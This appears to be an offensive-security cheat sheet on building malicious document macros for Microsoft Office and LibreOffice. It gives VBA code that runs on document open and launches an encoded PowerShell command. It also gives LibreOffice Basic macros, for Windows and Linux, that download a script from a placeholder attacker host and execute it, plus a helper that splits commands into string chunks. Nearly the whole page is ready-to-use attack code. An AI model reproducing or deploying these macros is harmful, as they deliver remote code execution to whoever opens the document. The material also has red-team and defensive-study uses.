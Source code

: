 # Macro

## Microsoft Office Macro

Creates a VBA macro in Microsoft Office to execute a PowerShell command.

### Macro Setup

Go to View > Macro, enter a name, and add the following code:

```vba
Sub AutoOpen()
    <macro_name>
End Sub

Sub Document_Open()
    <macro_name>
End Sub

Sub <macro_name>()
    Dim Str As String
    Str = Str + "powershell -e "
    Str = Str + "<base64_command>"
    CreateObject("Wscript.Shell").Run Str
End Sub
```

## LibreOffice Macro

Creates a Basic macro in LibreOffice to execute commands, assigned to the "Open Document" event.

### Macro Setup

Go to Tools > Macros > Organize Macros > LibreOffice Basic, name and create the macro.

#### **Windows**

Split command into smaller string:

```python
s = input("Enter your command: ")
s = 'cmd /c ' + s
n = 50
print('Macro command:')
for i in range(0, len(s), n):
	chunk = s[i:i + n]
	print('Str = Str + "' + chunk + '"')
```

Execute the PowerShell script:

```vba
Sub Main
    Dim Str As String
    ...
    Shell(Str)
End Sub
```

Downloads and executes a PowerShell script:

{% code overflow="wrap" %}

```vba
Sub Main
    Shell("cmd /c powershell iwr http://<target_ip>:<port>/<file>.ps1 -o C:/Windows/Temp/<file>.ps1")
    Shell("cmd /c powershell -c C:/Windows/Temp/<file>.ps1")
End Sub
```

{% endcode %}

#### **Linux**

Downloads and executes a shell script:

```vba
Sub Main
    Shell("bash -c 'curl -o /tmp/<file>.sh http://<target_ip>:<port>/<file>.sh'")
    Shell("bash -c 'chmod +x /tmp/<file>.sh'")
    Shell("bash -c '/tmp/<file>.sh'")
End Sub
```

Then assign it to "Open Document" via Tools > Customize > Events.
